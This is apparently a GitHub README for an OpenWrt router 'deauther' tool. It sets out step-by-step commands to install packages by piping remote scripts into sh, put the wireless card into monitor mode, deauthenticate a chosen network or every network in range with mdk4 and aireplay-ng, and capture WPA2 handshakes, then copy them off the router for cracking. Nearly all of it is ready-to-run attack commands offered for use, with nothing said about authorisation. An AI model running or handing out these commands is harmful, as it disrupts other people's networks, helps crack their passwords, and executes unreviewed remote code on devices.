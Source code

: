 # Requirements 
- Mediatek MT7628* chipset router
- Mipsel-24kc package
- Openwrt firmware version 22.03.*

# Notes
- Functions similar on linux aircrack-ng aireplay-ng and mdk4
- Can also capture WPA2 WPAWPA2PSK Handshakes
- Doesn't work on openwrt version 23.*.* up

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```

# Auto Install
```sh
opkg update && wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/install | sh
````
# Install Monitor Mode
```sh
wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/wlan0mon | sh
```
# Run monitor mode
> script
```
iw phy phy0 interface add wlan0mon type monitor
ip link set wlan0mon up
```
> short
```sh
sh wlan0mon
```
# Enable full monitor mode using airmon-ng (optional)
```
airmon-ng start wlan0
```
# Install mdk4
> (mipsel_24kc)
```sh
opkg update && wget -O mdk4.ipk https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/mdk4_4.2-5_mipsel_24kc.ipk && opkg install mdk4.ipk
```
# Scan wifi from the terminal
```
iw wlan0 scan | grep BSS
```
# Scan wifi using airodump-ng
```
sh wlan0mon && airodump-ng wlan0mon
```
## Deauth attack using mdk4
> 1.Enable monitor mode
```
sh wlan0mon && airodump-ng wlan0mon
```
> 2.Deauth a specific target BSSID
```
mdk4 wlan0mon d -B (BSSID) -m
```
> 3.Deauth all
```
mdk4 wlan0mon d
```
# Deauth attack using aireplay-ng
> 1.Enable the monitor mode
```
sh wlan0mon && airodump-ng wlan0mon
```
> 2.Deauth a specific BSSID
```
aireplay-ng wlan0mon --deauth 0 -a (BSSID) --ignore-negative-one
```
-------
# Capture the 4way handshakes
```
```
## Export handshake file from openwrt to local storage
> [!Tip]
> install SFTP server on both system in order that SCP to work

> Openwrt: `opkg install openssh-sftp-server`

> Linux/Termux: `apt install openssh-sftp-server`

- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Download
```

# More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help
 - mdk4 --help
